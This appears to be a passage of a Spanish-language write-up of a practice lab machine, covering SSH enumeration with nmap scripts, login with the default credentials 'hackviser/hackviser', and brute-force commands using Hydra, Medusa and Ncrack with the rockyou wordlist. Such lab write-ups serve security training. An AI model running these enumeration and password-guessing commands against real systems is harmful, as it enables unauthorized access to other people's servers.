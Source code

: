 #### Scripts de Enumeración SSH
```bash
# Enumeración de algoritmos SSH
nmap --script ssh2-enum-algos 172.20.4.179

# Detección de vulnerabilidades SSH
nmap --script ssh-hostkey,ssh-auth-methods 172.20.4.179
```

---

## 2. FASE DE ACCESO INICIAL

### 2.1 Autenticación SSH

#### Credenciales Identificadas
- **Usuario**: hackviser
- **Contraseña**: hackviser
- **Método**: Credenciales por defecto/débiles

#### Comando de Conexión
```bash
ssh hackviser@172.20.4.179
```

#### Proceso de Autenticación
```bash
# Conexión SSH con usuario específico
ssh hackviser@172.20.4.179

# Alternativa con puerto específico si fuera necesario
ssh -p 22 hackviser@172.20.4.179

# Conexión con verbose para debugging
ssh -v hackviser@172.20.4.179
```

#### Mensaje de Bienvenida
```
Welcome Message: "Try hackviser ^_^"
```

### 2.2 Técnicas Alternativas de Acceso

#### Fuerza Bruta (Si fuera necesario)
```bash
# Usando Hydra para SSH
hydra -l hackviser -P /usr/share/wordlists/rockyou.txt 172.20.4.179 ssh

# Usando Medusa
medusa -h 172.20.4.179 -u hackviser -P passwords.txt -M ssh

# Usando Ncrack
ncrack -p ssh 172.20.4.179 --user hackviser -P passwords.txt
```

---